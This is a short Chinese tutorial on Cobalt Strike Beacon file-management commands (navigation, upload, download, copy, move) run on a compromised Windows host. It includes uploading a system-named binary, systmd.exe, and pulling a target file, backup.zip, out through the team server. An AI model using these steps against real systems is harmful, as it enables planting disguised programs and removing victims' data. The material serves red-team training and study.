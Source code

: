 ```yaml
---
title: Cobalt Strike Beacon 基础文件管理
id: zhfly3642
---
```


# Cobalt Strike Beacon 基础文件管理

```
pwd `查看当前所在路径` 
```

```
cd c:\windows\help\help 

切换到指定路径下 
```

```
ls 

查看当前目录下的所有文件和目录 
```

```
mkdir tmp 

在当前目录下新建一个名为 tmp 的目录 
```

```
rm tmp 

删除当前目录下的 tmp 目录,注意,删除指定目录时,不能有进程占用该目录,否则是删不掉的 
```

```
upload /home/klion/Desktop/systmd.exe 

上传 systmd.exe 到当前目录下,貌似只能上传单个文件,其实,平时也压根用不着一次性上传很多东西 
```

![image](../img/05ad8973b2ff80f1cd851665ececa2ff.png)

```
download c:\windows\temp\backup.zip `下载目标系统中指定路径下的指定文件,此处要特别注意,它并不是直接就下到你本地机器上的,而是先上传到团队服务器,之后需要我们再从团队服务器选中指定文件然后再同步到你本地的` 
```

```
downloads

用于查看当前正在往本地同步的文件,没啥用 
```

![image](../img/8b763ab789fe6e2737e4be5553a8f32c.png)

> 看到上面提示下载完成之后,点击菜单中的选中要同步的"view" -> "Download"然后再选中你要下载的文件,点击"Sync Files"

![image](../img/9d15f1d54c84bc88b28bd18c918cab55.png)

> 指明你要保存到的本地路径,即可开始下载,全部下载完成后它依然会提示你,非常简单就不多废话了

![image](../img/beec41841cf507f81d60429d47a36447.png)

```
drives `列出当前系统中的所有盘符` 
```

```
# cp c:\windows\temp\backup.zip c:\windows\help\help\res.zip

复制指定的文件到指定路径下,注意后面的目标路径务必要指定保存为的文件名 
```

```
# mv c:\windows\temp\backup.zip c:\windows\help\help\source.zip

移动指定的文件到指定路径下,注意后面的目标路径务必要指定保存为的文件名 
```

![image](../img/6acdebda9eaa847180c2cb4ef1e1e7fa.png)
